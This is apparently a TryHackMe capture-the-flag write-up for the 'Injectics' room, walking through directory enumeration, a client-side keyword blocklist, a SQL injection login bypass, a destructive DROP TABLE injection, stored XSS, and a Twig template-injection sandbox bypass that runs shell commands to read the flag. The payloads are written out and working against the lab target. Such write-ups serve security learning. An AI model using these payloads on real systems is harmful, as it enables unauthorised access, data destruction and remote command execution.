



# TryHackMe – Injectics Write-up

## Room Overview

Injectics is a web exploitation-focused TryHackMe room involving:

* Directory Enumeration
* SQL Injection
* Stored XSS
* SSTI (Server-Side Template Injection)
* Twig Sandbox Bypass
* Remote Command Execution

---

# 1. Enumeration

I started with directory enumeration using Gobuster.

```bash
gobuster dir -u http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt
```
## Output


Interesting directories discovered:

```text
/flags
/phpmyadmin
/js
/javascript
/vendor
```

The `/flags` directory returned a `403 Forbidden` response, which suggested the flags existed but direct access was restricted.

---

# 2. Hidden Admin Login Discovery

While exploring the application, I clicked the **“Login as Admin”** button which redirected me to:

```text
/adminLogin007.php
```

This looked like a hidden admin authentication portal.

Viewing the page source revealed:

* login form action
* POST parameters
* JavaScript validation logic

---

# 3. Client-Side Filter Discovery

Inspecting `script.js` revealed a blacklist filter:

```javascript
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
```

Observations:

* filtering was only client-side
* only lowercase keywords were blocked
* the validation checked only the username/email field

This immediately suggested the backend might still be vulnerable to SQL Injection.

---

# 4. SQL Injection Authentication Bypass

The following payload successfully bypassed authentication:

```sql
a' || 1=1 -- -
```

Used in:

* Email field

Password:

```text
a
```

This granted access to the developer dashboard.

---

# 5. Database Manipulation via SQL Injection

After intercepting the request with Burp Suite, I modified the payload and executed:

```sql
DROP TABLE users -- -
```

After forwarding the request, the application displayed:

```text
InjecticsService is running to restore it
```

This indicated the application had an automated restoration mechanism.

---

# 6. Information Disclosure – mail.log

While continuing enumeration, I discovered:

```text
/mail.log
```

The file revealed:

* operational details
* restored default credentials
* service behavior information

The log explained that the application automatically restored default accounts whenever the `users` table became corrupted or deleted.

After waiting briefly, I logged in successfully using the restored admin account.

---

# 7. Stored XSS Discovery

Inside the admin profile page, I modified the first-name field with:

```html
<script>alert(1)</script>
```

After saving, the payload executed successfully on the dashboard.

This confirmed a **Stored Cross-Site Scripting (XSS)** vulnerability.

---

# 8. SSTI Discovery

Further testing revealed that template expressions were being evaluated server-side.

Payload:

```twig
{{7*7}}
```

returned:

```text
49
```

This confirmed a Server-Side Template Injection vulnerability.

Additional error messages suggested the application was using a Twig-like templating engine.

---

# 9. SSTI Sandbox Bypass → Remote Code Execution

Several payloads were tested against the Twig sandbox.

Eventually, the following payload achieved command execution:

```twig
{{['id',""]|sort('passthru')}}
```

Output:

```text
uid=33(www-data) gid=33(www-data)
```

This confirmed Remote Command Execution as the `www-data` user.

---

# 10. Enumerating the File System

Using the SSTI RCE vulnerability, I enumerated the filesystem:

```twig
{{['ls /',""]|sort('passthru')}}
```

and later searched for flag-related files:

```twig
{{['find /var/www -name "*flag*" 2>/dev/null',""]|sort('passthru')}}
```

This revealed:

```text
/var/www/html/flags
```

---

# 11. Retrieving the Final Flag

Finally, I read the contents of the flag directory using:

```twig
{{['cat /var/www/html/flags/*',""]|sort('passthru')}}
```

This returned the final flag.

---

# Vulnerabilities Identified

* Directory Enumeration Exposure
* SQL Injection
* Authentication Bypass
* Insecure Error Handling
* Sensitive Information Disclosure
* Stored XSS
* SSTI (Twig)
* Twig Sandbox Bypass
* Remote Command Execution

---

# Conclusion

This room demonstrated a complete web exploitation chain starting from simple enumeration and ending with full Remote Code Execution.

The most interesting part of the room was chaining:

1. SQL Injection
2. Credential restoration abuse
3. Stored XSS
4. SSTI
5. Twig sandbox bypass

Overall, this was a very educational and enjoyable room for practicing advanced web exploitation techniques.
